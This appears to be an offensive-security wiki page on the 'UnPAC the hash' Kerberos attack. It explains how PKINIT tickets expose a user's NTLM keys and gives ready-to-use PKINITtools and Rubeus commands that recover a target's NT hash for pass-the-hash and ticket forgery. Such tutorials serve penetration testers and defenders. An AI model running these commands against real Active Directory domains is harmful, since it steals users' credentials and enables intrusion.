

# UnPAC the hash

## Theory

When using PKINIT to obtain a TGT (Ticket Granting Ticket), the KDC (Key Distribution Center) includes in the ticket a `PAC_CREDENTIAL_INFO` structure containing the NTLM keys (i.e. LM and NT hashes) of the authenticating user. This feature allows users to switch to NTLM authentications when remote servers don't support Kerberos, while still relying on an asymmetric Kerberos pre-authentication verification mechanism (i.e. PKINIT).

The NTLM keys will then be recoverable after a TGS-REQ through U2U, combined with S4U2self, which is a Service Ticket request made to the KDC where the user asks to authenticate to itself (i.e. [S4U2self + User-to-User authentication](./#s4u2self-+-u2u)).

The following protocol diagram details how UnPAC-the-hash works. It allows attackers that know a user's private key, or attackers able to conduct [Shadow Credentials](shadow-credentials.md) or [Golden certificate](../../persistence/golden-certificate.md) attacks, to recover the user's LM and NT hashes.



## Practice



From UNIX-like systems, this attack can be conducted with [PKINITtools](https://github.com/dirkjanm/PKINITtools) (Python).

The first step consists in obtaining a TGT by validating a PKINIT pre-authentication first.

```python
gettgtpkinit.py -cert-pfx "PATH_TO_CERTIFICATE" -pfx-pass "CERTIFICATE_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```

Once the TGT is obtained, and the session key extracted (printed by gettgtpkinit.py), the getnthash.py script can be used to recover the NT hash.

```bash
export KRB5CCNAME="TGT_CCACHE_FILE"
getnthash.py -key 'AS-REP encryption key' 'FQDN_DOMAIN'/'TARGET_SAMNAME'
```

The NT hash can be used for [pass-the-hash](../ntlm/pth.md), [silver ticket](forged-tickets/#silver-ticket), or [Kerberos delegations](delegations/) abuse.



From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to requesting a ticket using a certificate and use `/getcredentials` to retrieve the NT hash in the PAC.

```bash
Rubeus.exe asktgt /getcredentials /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```



## Resources





